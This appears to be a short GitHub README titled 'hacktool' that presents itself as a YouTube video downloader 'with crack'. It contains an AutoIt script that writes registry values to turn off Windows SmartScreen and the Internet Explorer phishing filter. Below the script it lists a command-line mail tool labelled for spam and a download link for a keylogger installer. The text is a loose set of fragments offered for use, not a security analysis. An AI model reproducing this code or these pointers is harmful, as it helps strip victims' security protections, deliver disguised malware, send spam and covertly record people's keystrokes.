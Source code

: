 # hacktool

youtube vedio download with crack

ad35a233a3421934b9b7b7514c4fbface48ecc6b1eadb99422057dabbdb15cbb


#for disabling AutoItSetOption("TrayIconHide", 0x1)
AutoItSetOption("TrayAutoPause", 0x0)
AutoItSetOption("MouseCoordMode", 0x0)
Local $type = @OSArch
Local $ver = @OSVersion
Local $regpath, $pathfile, $user, $pass, $valid1, $valid4, $uac, $signal
If $type = "X86" Then
    $pathfile = "C:\Program Files"
    $regpath = "HKLM\Software"
Else
    $pathfile = "C:\Program Files (X86)"
    $regpath = "HKLM\Software\Wow6432Node"
EndIf
If $ver = "Win_10" Then
    RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\System", "EnableSmartScreen", "REG_DWORD", "0")
ElseIf $ver = "Win_7" Then
    RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\PhishingFilter", "EnableV9", "REG_DWORD", "0")
EndIf
Sleep(0x5dc)
Exit





sending email for spam on command line 
https://www.blat.net/



keylogger http://www.keylogger-gratuit.com/
http://www.keylogger-gratuit.com/telecharger/kg-setup.zip
